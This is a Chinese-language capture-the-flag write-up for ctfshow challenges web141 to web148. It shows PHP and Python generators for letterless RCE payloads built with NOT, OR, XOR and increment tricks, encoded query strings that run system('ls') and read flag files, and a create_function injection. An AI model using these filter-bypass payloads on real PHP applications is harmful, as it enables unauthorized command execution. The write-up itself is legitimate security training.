### web141

开启容器

代码审计


`$v3`需要非字母开头

- `\W+` ：匹配一个或多个非单词字符。所谓“非单词字符”，指的是除字母（a-z，A-Z）、数字（0-9）和下划线（\_）之外的任何字符，比如标点符号、空格、特殊符号等。

简单来说就是无字母 RCE

总结一下，无字母 RCE 包括取反、异或、或、自增

这里没有其他字符过滤，应该是都可以

然后绕过 return 的方法要利用以下的 trick

> 在 PHP 中, 函数与数字进行运算的时候, 函数能够被正常执行

#### 取反

构造脚本

```php
<?php
fwrite(STDOUT,'[+]your function: ');
$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
fwrite(STDOUT,'[+]your command: ');
$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
```

```
v1=0&v2=0&v3=-(~%8C%86%8C%8B%9A%92)(~%93%8C)-
```



```
v1=0&v2=0&v3=-(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F)-
```



#### 或

构造 php 脚本

```php
<?php


$myfile = fopen("or_rce.txt", "w");

$contents="";

for ($i=0; $i < 256; $i++) {
        for ($j=0; $j <256 ; $j++) {
                if($i<16){
                        $hex_i='0'.dechex($i);
                }
                else{
                        $hex_i=dechex($i);
                }

                if($j<16){
                        $hex_j='0'.dechex($j);
                }

                else{
                        $hex_j=dechex($j);
                }

                $preg = '/[0-9a-z]/i';//������Ŀ�����������ʽ�޸ļ���
                if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
	                echo "";
    }

                else{
                $a='%'.$hex_i;
                $b='%'.$hex_j;
                $c=(urldecode($a)|urldecode($b));
                if (ord($c)>=32&ord($c)<=126) {
                        $contents=$contents.$c." ".$a." ".$b."\n";
                }
        }
}

}

fwrite($myfile,$contents);
fclose($myfile);
```

构造 python 脚本

```python
# -*- coding: utf-8 -*-
# author yu22x


import requests
import urllib
from sys import *
import os

def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("or_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()

   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)

while True:
   param=action(input("\n[+] your function��") )+action(input("[+] your command��"))+";"
   print(param)
```

ls 一下

```
v1=0&v2=0&v3=-("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%0c%13"|"%60%60")-
```



tac 一下

```
v1=0&v2=0&v3=-("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%14%01%03%00%06%0c%01%07%00%10%08%10"|"%60%60%60%20%60%60%60%60%2e%60%60%60")-
```



#### 异或

php 构造脚本

```php
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) {

        for ($j=0; $j <256 ; $j++) {

                if($i<16){
                        $hex_i='0'.dechex($i);
                }

                else{
                        $hex_i=dechex($i);
                }

                if($j<16){
                        $hex_j='0'.dechex($j);
                }

                else{
                        $hex_j=dechex($j);
                }

                $preg = '/[a-z0-9]/i'; //根据题目给的正则表达式修改即叄1�7
                if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
	                echo "";
    }

                else{
                $a='%'.$hex_i;
                $b='%'.$hex_j;
                $c=(urldecode($a)^urldecode($b));
                if (ord($c)>=32&ord($c)<=126) {
                        $contents=$contents.$c." ".$a." ".$b."\n";
                }
        }
}
}

fwrite($myfile,$contents);
fclose($myfile);
```

python 构造脚本

```python
# -*- coding: utf-8 -*-
# author yu22x
# import requests

import urllib
from sys import *
import os

def action(arg):

   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()

   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)

while True:

   param=action(input("\n[+] your function:") )+action(input("[+] your command:"))+";"
   print(param)
```

ls 一下

```
v1=0&v2=0&v3=-("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%14%01%03%00%06%0c%01%07%00%10%08%10"|"%60%60%60%20%60%60%60%60%2e%60%60%60")-
```



tac 一下

```
v1=0&v2=0&v3=-("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%08%01%03%00%06%0c%01%07%00%0b%08%0b"^"%7c%60%60%20%60%60%60%60%2e%7b%60%7b")-
```



#### 自增

无长度限制，可以有很多操作

`%24_%3D%5B%5D._%3B%24__%3D%24_%5B1%5D%3B%24_%3D%24_%5B0%5D%3B%24_%2B%2B%3B%24_1%3D%2B%2B%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D%24_1.%2B%2B%24_.%24__%3B%24_%3D_.%24_(71).%24_(69).%24_(84)%3B%24%24_%5B1%5D(%24%24_%5B2%5D)%3B%20`

`$_=[].'';$_=$_[''=='$'];$_++;$_++;$_++;$_++;$__=$_;$_++;$_++;$___=$_;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_=$___.$__.$_;$_='_'.$_;$$_[_]($$_[__]);`

但是由于加减乘除计算中自增包含太多语句，可能就无法实现 rce

### web142

开启容器

代码审计



直接传入，防止 sleep 太长
`/?v1=0`



### web143

开启容器

代码审计



相对于 web141 多了更多条件`~`无法取反，`%`

```
#system('cat f*')
v1=1&v2=1&v3=*("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%03%01%0b%00%06%00"^"%60%60%7f%20%60%2a")*
```

("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%08%01%03%00%06%00"^"%7c%60%60%20%60%2a")



### web144

开启容器

代码审计



`v3`的值必须是长度为 1
对应传入 v2 即可



### web145

开启容器

代码审计



这次异或`^`又被过滤了，可以用或`|`和取反`~`。

#### 用 or

注意把双引号改成单引号

`/?v1=0&v2=0&v3=|('%13%19%13%14%05%0d'|'%60%60%60%60%60%60')('%0c%13'|'%60%60')|`





`/?v1=0&v2=0&v3=|("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%14%01%03%00%06%02"|"%60%60%60%20%60%28")|`

#### 用取反

`/?v1=1&v3=|(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)|&v2=1`


### web146

开启容器

代码审计



这里异或`^`被过滤

取反


或也是可以的

### web147

开启容器

代码审计



匹配不是以字母开头的字符串 ，create_funciton 的用法，需要在前面加一个字符绕过正则，达到命令执行  
%5c()可以绕过正则  
php 里默认命名空间是\，所有原生函数和类都在这个命名空间中。 普通调用一个函数，如果直接写函数名 function_name()调用，调用的时候其实相当于写了一个相对路 径； 而如果写\function_name()这样调用函数，则其实是写了一个绝对路径。 如果你在其他 namespace 里调用系统类，就必须写绝对路径这种写法

```
create_function('$a','echo $a."123"')
类似于
function f($a) {
  echo $a."123";
}
```

```
GET ?show=;};system('cat f*');/*
POST ctf=%5ccreate_function
```

本地测试可以 RCE



### web148

开启容器

代码审计



只要执行函数 get_ctfshow_fl0g()即可
